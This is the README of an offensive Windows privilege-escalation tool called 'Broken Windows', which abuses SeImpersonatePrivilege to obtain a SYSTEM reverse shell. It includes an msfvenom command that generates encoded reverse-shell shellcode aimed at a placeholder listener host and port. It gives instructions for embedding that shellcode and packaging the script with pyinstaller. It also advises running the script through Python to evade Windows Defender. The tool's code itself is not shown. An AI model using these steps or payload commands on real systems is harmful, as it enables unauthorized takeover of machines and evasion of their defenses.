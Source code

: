# Broken Windows

## What is Broken Windows?

It's a privilege escalation tool for Windows. It leverages the access token of the user who runs it to eventually pop a reverse shell as SYSTEM. The user's access token **must** have the SeImpersonatePrivilege in order for Broken Windows to work. 

It can be run through the Python interpreter if it's available on your target system, or it can be run as a standalone executable.

## How can I convert the Broken Windows.py file to an executable?

Just follow these steps.

```
pip install pyinstaller
```
```
pyinstaller --onefile --console "/path/to/Broken Windows.py"
```

```Broken Windows.exe``` will be in the ```dist``` folder created by pyinstaller.

## How do I use it?

Generate a reverse shell with msfvenom. Remember to remove x64 from the command if your target system is 32 bit. If msfvenom fails to encode your reverse shell due to one of the bad bytes, run the command again.

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=MACHINE_IP LPORT=PORT -f python -b "\x00,\xFF,\x0A,\x0D" -e x86/shikata_ga_nai -n 32
```

Copy the shellcode outputted by msfvenom and paste it into the ```BrokenWindows.py``` file, in the ```main``` function.

Then, simply execute ```Broken Windows.py``` or ```Broken Windows.exe``` on your target system:

![CMD](https://user-images.githubusercontent.com/16895391/129423983-a96c33b5-e0d9-458b-abee-128fb2ff0c5b.PNG)

![PYTHON](https://user-images.githubusercontent.com/16895391/129424058-05a8ed5d-4d8d-4e3b-9bac-c5ef72ffe6c9.PNG)

You (hopefully!) will receive a reverse shell as SYSTEM:

![SHELL](https://user-images.githubusercontent.com/16895391/129421207-727ed0e5-8175-4fb7-aa0a-0c1b3a77741c.PNG)

## Tips

I have noticed that Windows Defender (and possibly other AVs) **do not** detect any threats if you use the python interpreter to run Broken Windows instead of the executable. If you use the executable, most AVs runtime analysis will detect the reverse shell.
